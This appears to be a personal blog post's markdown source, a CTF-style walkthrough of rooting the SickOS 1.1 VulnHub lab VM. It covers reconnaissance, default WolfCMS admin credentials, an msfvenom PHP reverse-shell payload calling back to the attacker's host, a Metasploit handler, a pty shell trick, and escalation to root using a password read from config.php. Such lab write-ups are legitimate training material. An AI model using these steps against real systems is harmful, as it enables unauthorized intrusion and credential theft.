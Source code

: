 ```yaml
---
layout:		post
title:  	"SickOS 1.1"
date: 		2018-03-06 16:00:00 +0800
summary:	Today we are going to get root on SickOS 1.1, a VulnHub VM.
categories:	vulnhub sickos
---
```


Hey everyone, today we have a VulnHub VM, <a href="https://www.vulnhub.com/entry/sickos-11,132/">sickOS</a>, that we are going to get root on. 

The description given is "This CTF gives a clear analogy how hacking strategies can be performed on a network to compromise it in a safe environment. This vm is very similar to labs I faced in OSCP. The objective being to compromise the network/machine and gain Administrative/root privileges on them."

Being similar to an OSCP is nice to know! Let's get started. 

![Login](/assets/sickos/login.PNG){: .center-image }

Here is what you see when you power on the sickOS VM. So as always, let's move over to our Kali machine and nmap the network and find sickOS's IP.

We've got ports  22 and 3128 open and port 8080 closed. Let's launch firefox and see what happens if we go to the IP address.

Connection timed out, that's no good. Let's try to proxy using the squid-http open port and refresh.

![blehhh](/assets/sickos/blehhh.PNG){: .center-image }

Well that's seemed to work. So squid is running on this server. 

Okay, let's use Nikto to find out if we've got any vulnerabilities we can use!

![nikto](/assets/sickos/nikto.PNG){: .center-image }

Okay! There are a few exploits we could use, shellshock looks especially interesting! But first I'm going to look at the robots.txt

![wolfcms](/assets/sickos/wolfcms.PNG){: .center-image }

There's mention of a "wolfcms", let's see if that comes up for us.

![wolfcms landing](/assets/sickos/wolfcms_landing.PNG){: .center-image }

WolfCMS is a Content Management System, neat. With Content Management must come an administrator login right? Let's head over to DuckDuckGo and find out how to log in to WolfCMS.

Appending /?admin/ works, now we could try find a way to crack this login <u><i>OR</i></u> we could try the handy "admin" "password" or "admin" "admin" before we get ahead of ourselves.

![wolfcms admin](/assets/sickos/wolfcmsadmin.PNG){: .center-image }

Yep, admin admin strikes again. Thanks lazy admins! Let's go to the files tab and hope we can upload some files.

![wolfcms files](/assets/sickos/wolfcms_files.PNG){: .center-image }

It seems like it's letting us do it, let's upload a php script to try get a reverse shell going. First, we need to make the php script with MSFvenom

Using:

{% highlight ruby %}
msfvenom -p php/meterpreter/reverse_tcp lhost=**HOST IP ADDRESS** lport=**whichever port you want** -f raw
{% endhighlight %}

we can make a php script to open a reverse tcp to get us in to open a reverse shell.

Now that we've got the php file uploaded, we need to make a session on our Kali box so when we activate it on the web server, it handshakes and we can make our reverse shell. 

We are making a session in Metasploit, using the exploit/multi/handler and using the php/meterpreter/reverse_tcp (as before when making the script) specifying the same host and port we specified in the php script! 

![msf metasploit](/assets/sickos/msf_metasploit.PNG){: .center-image }

Now we go to the web server where our php script is located and run it! 

![metasploit session](/assets/sickos/metasploit_session.PNG){: .center-image }

The session has started!! Let's use a nifty python trick and get into bash on the web server.

{% highlight ruby %}
echo "import pty; pty.spawn('/bin/bash')" > /tmp/aaaa.py
python /tmp/aaaa.py
{% endhighlight %}


![bash shell](/assets/sickos/bash_shell.PNG){: .center-image }

We have bash! much easier to work with. 

![file list](/assets/sickos/filelist.PNG){: .center-image }

Our user is www-data and I've now changed directory and listed the files, config.php looks like the most interesting file at the moment so I'll cat into that and have a read

![sql username pass](/assets/sickos/sqlusernamepass.PNG){: .center-image }

And straight away we have a password, let's try and get into the account!

![loggedin sickos](/assets/sickos/loggedinsickos.PNG){: .center-image }

Okay, now finally let's get root and show the flag!

![root](/assets/sickos/root.PNG){: .center-image }

Thanks guys, three machines down! I'll try get another post out within a week or so!


